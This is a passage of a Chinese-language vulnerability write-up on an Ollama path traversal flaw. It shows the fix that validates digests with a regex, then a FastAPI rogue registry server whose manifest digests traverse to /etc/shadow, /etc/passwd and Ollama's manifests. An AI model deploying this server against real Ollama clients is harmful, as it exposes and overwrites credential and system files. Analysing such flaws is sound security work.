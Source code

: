 ```go
  return "", err
}

if digest != "" && !re.MatchString(digest) {
  return "", ErrInvalidDigestFormat
}

digest = strings.ReplaceAll(digest, ":", "-")
path := filepath.Join(dir, "blobs", digest)
dirPath := filepath.Dir(path)

if digest == "" {
  dirPath = path
}

if err := os.MkdirAll(dirPath, 0o755); err != nil {
  return "", err
}

return path, nil
}
```

这种修复方法通过正则匹配的方式有效防范了路径遍历攻击，确保了digest是合法的SHA256格式（长度为64的十六进制字符串）

#### payload作用原理

server.py代码如下

```python
from fastapi import FastAPI, Request, Response

HOST = "192.168.244.133"
app = FastAPI()

@app.get("/")
async def index_get():
    return {"message": "Hello rogue server"}

@app.post("/")
async def index_post(callback_data: Request):
    print(await callback_data.body())
    return {"message": "Hello rogue server"}

# for ollama pull
@app.get("/v2/rogue/bi0x/manifests/latest")
async def fake_manifests():
    return {"schemaVersion":2,"mediaType":"application/vnd.docker.distribution.manifest.v2+json","config":{"mediaType":"application/vnd.docker.container.image.v1+json","digest":"../../../../../../../../../../../../../etc/shadow","size":10},"layers":[{"mediaType":"application/vnd.ollama.image.license","digest":"../../../../../../../../../../../../../../../../../../../tmp/notfoundfile","size":10},{"mediaType":"application/vnd.docker.distribution.manifest.v2+json","digest":"../../../../../../../../../../../../../etc/passwd","size":10},{"mediaType":"application/vnd.ollama.image.license","digest":f"../../../../../../../../../../../../../../../../../../../root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest","size":10}]}

@app.head("/etc/passwd")
async def fake_passwd_head(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../etc/passwd"
    return ''

@app.get("/etc/passwd", status_code=206)
async def fake_passwd_get(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../etc/passwd"
    response.headers["E-Tag"] = "\"../../../../../../../../../../../../../etc/passwd\""
```